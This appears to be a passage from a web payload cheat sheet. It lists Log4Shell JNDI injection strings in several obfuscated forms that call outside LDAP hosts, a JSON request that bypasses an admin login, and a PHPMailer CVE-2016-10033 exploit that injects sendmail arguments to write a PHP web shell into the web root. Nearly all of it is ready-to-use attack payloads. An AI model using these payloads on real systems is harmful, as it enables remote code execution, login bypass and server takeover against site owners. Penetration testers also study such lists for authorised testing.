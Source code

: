 ```http
${jndi:ldap://xxxxx.burpcollaborator.net/a}
```

### ":-" notation
```http
${j${${:-l}${:-o}${:-w}${:-e}${:-r}:n}di:ldap://somesitehackerofhell.com/z}
```

### Unicode Characters (JSON REST API request)
```http
${\u006a\u006e\u0064\u0069:ldap://somesitehackerofhell.com/z}
```

### "::-" notation
```http
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://somesitehackerofhell.com/z}
```


# JSON

##### `bypass admin login on sql misconfig`
```http
POST /api/login HTTP/1.1
Host: vuln-web.io
[...]

{"username":"admin","password":{"password": 1}}
```

# RCE
### PHPMailer
##### `CVE-2016-10033: PHPMailer RCE Exploitation`

The exploitation of this issue is done in two steps:
* Create a file with a PHP extension in the web root of the server.
* Access the newly created file.

To create the file, you can inject some extra-arguments to the command as part of the email address:
```http
"attacker@127.0.0.1\" -oQ/tmp/ -X/var/www/shell.php  root"@127.0.0.1
```
This will allow us to create the file /var/www/shell.php. To get code execution, we also need to inject a web shell in the email's body:
```php
<?php system($_GET['x']);?>
```
Finally, you need to access your web shell to execute commands using the `x` parameter.

